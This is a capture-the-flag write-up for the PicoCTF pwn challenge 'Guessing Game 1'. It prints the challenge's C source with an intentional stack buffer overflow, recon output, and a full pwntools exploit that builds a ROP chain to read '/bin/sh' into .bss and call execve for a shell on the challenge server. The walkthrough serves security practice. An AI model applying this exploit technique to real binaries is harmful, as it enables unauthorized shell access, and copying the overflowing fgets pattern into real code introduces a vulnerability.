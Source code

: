 ```yaml
---
title: PicoCTF - Guessing Game 1
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - Guessing Game 1
<!-- more -->

## Background
ROP Chain
[Linux System Call Table for x86 64](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

## Source code
:::spoiler
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>

#define BUFSIZE 100


long increment(long in) {
	return in + 1;
}

long get_random() {
	return rand() % BUFSIZE;
}

int do_stuff() {
	long ans = get_random();
	ans = increment(ans);
	int res = 0;
	
	printf("What number would you like to guess?\n");
	char guess[BUFSIZE];
	fgets(guess, BUFSIZE, stdin);
	
	long g = atol(guess);
	if (!g) {
		printf("That's not a valid number!\n");
	} else {
		if (g == ans) {
			printf("Congrats! You win! Your prize is this print statement!\n\n");
			res = 1;
		} else {
			printf("Nope!\n\n");
		}
	}
	return res;
}

void win() {
	char winner[BUFSIZE];
	printf("New winner!\nName? ");
	fgets(winner, 360, stdin);
	printf("Congrats %s\n\n", winner);
}

int main(int argc, char **argv){
	setvbuf(stdout, NULL, _IONBF, 0);
	// Set the gid to the effective gid
	// this prevents /bin/sh from dropping the privileges
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
	
	int res;
	
	printf("Welcome to my guessing game!\n\n");
	
	while (1) {
		res = do_stuff();
		if (res) {
			win();
		}
	}
	
	return 0;
}
```
:::

## Recon
1. Recon
    ```bash!
    $ file vuln
    vuln: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=94924855c14a01a7b5b38d9ed368fba31dfd4f60, not stripped
    $ checksec vuln
    [*] '/mnt/d/NTU/CTF/PicoCTF/PWN/Guessing Game 1/vuln'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    ```
    可以看到這隻程式沒有用動態連結的方式引入library，代表他都把一些libc會用到的東西編譯進去了
2. 這支程式沒有明顯讀flag的地方，所以可以直覺想到要開shell，而main function的do_stuff subfunction主要應該是類似proof of work的部分(因為亂數的範圍也只要0-99)，當猜對random的數值後就近到win function然後可以填一些東西，達到bof的效果
3. 所以也很直覺的想到one_gadget或是ROP chain的東西，這部分就比較傷腦筋，因為蓋的過程會有一點點繞，講白了這題和[^0x12_rop++]幾乎一模一樣，但因為太久沒看所以忘記了
4. 既然有bof，那我們就可以隨便的蓋rop chain，包括syscall read function，這也說明了如何寫`/bin/sh\x00`的問題
5. ==執行的順序:==
Guess random(PoW)$\to$
syscall __libc_read function$\to$
Input `/bin/sh\x00`$\to$
Return to main function$\to$
Guess random(PoW)$\to$
Syscall `execve` to get shell

Note: 要如何知道`.bss`段在哪裡可以用`readelf -S ./vuln`查看

## Exploit
```python
from pwn import *
import random

# r = process("./vuln")
r = remote("jupiter.challenges.picoctf.org", 39940)

context.arch = "amd64"

'''#############
Read /bin/sh by libc read function
#############'''
r.recvuntil(b'What number would you like to guess?\n')

while(1):
    r.sendline(str(randint(1, 99)).encode())
    tmp = r.recvline().strip().decode()
    print(tmp)
    if tmp != "Nope!":
        success("You got it!!!")
        break
    r.recvuntil(b'What number would you like to guess?\n')

print(r.recvuntil(b'Name? '))

pop_rax_ret = 0x4163f4
pop_rdi_ret = 0x400696
pop_rdx_ret = 0x44a6b5
pop_rsi_ret = 0x410ca3
main_fun_addr = 0x400c8c
libc_read_addr = 0x44a6a0
write_2_bss = 0x6b7000
syscall = 0x40137c

ROP_payload = flat(
    pop_rdi_ret, 0,
    pop_rsi_ret, write_2_bss,
    pop_rdx_ret, 9,
    libc_read_addr,
    main_fun_addr
)
# raw_input()
r.sendline(b'a' * 0x78 + ROP_payload)
r.sendline(b'/bin/sh\x00')

'''#############
Execute shell
#############'''
r.recvuntil(b'What number would you like to guess?\n')

while(1):
    r.sendline(str(randint(1, 99)).encode())
    tmp = r.recvline().strip().decode()
    print(tmp)
    if tmp != "Nope!":
        success("You got it!!!")
        break
    r.recvuntil(b'What number would you like to guess?\n')

print(r.recvuntil(b'Name? '))

ROP_payload = flat(
    pop_rax_ret, 0x3b,
    pop_rdi_ret, write_2_bss,
    pop_rsi_ret, 0,
    pop_rdx_ret, 0,
    syscall
)
# raw_input()
r.sendline(b'a' * 0x78 + ROP_payload)
r.interactive()
```

## Reference
[PicoCTF - Guessing Game 1 [Pwn]](https://cyb3rwhitesnake.medium.com/picoctf-guessing-game-1-pwn-bdc1c87016f9)
[^0x12_rop++]:[Simple PWN - 0x12(Lab - rop++)](https://hackmd.io/@SBK6401/rysBjQfjs)

